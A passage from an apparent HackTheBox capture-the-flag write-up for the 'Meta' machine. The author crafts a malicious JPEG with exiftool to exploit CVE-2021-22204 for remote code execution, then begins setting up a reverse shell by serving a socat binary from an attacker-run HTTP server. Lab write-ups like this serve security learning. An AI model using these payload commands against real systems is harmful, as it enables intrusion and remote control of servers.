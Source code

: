 After Googling "file upload image exiftool metadata vulnerability", I found **this GitHub repository: [JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE).**

In this repository, it has a `evil.config` Exiftool configuration file, which exploits CVE-2021-22204.

> "ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images."

**Let's clone the repository and modify the image to our evil payload!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:20:09(HKT)]
└> exiftool -config /opt/JPEG_RCE/eval.config ~/Downloads/rickroll.jpg -eval='system("id")'    
    1 image files updated
```

**Upload it again:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Meta/images/Pasted%20image%2020230816152604.png)

**It worked! Let's get a reverse shell!**

- Hosting `socat` binary via Python `http.server` module: (Using `socat` for fully interactive shell)

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:27:45(HKT)]
└> file /opt/static-binaries/binaries/linux/x86_64/socat 
/opt/static-binaries/binaries/linux/x86_64/socat: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:27:54(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

